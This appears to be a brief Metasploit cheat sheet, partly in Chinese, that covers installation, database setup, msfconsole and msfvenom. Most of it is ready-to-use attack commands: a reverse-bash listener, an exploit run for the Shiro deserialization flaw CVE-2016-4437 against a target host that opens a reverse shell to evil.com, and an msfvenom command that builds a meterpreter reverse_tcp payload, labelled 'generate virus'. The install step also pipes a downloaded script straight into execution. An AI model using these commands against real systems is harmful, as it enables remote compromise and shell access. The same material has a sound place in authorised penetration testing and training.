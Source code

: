 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall \
&& chmod 755 msfinstall \
&& ./msfinstall && rm -f ./msfinstall
```

## 2. Init

```
┌──(nemo@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(nemo@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(nemo@debian)-[~]
└─$ msfconsole
```

Listen

```
use exploit/multi/handler
show options
set PAYLOAD cmd/unix/reverse_bash
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
search CVE-2016-4437
use exploit/multi/http/shiro_rememberme_v124_deserialize
show options
set TARGET 0
set PAYLOAD cmd/unix/reverse
set RHOSTS example.com
set RPORT 8080
set LHOST evil.com
set LPORT 4444
run
```

### 3.2. msfvenom

生成病毒

```
┌──(nemo@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ./venom
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

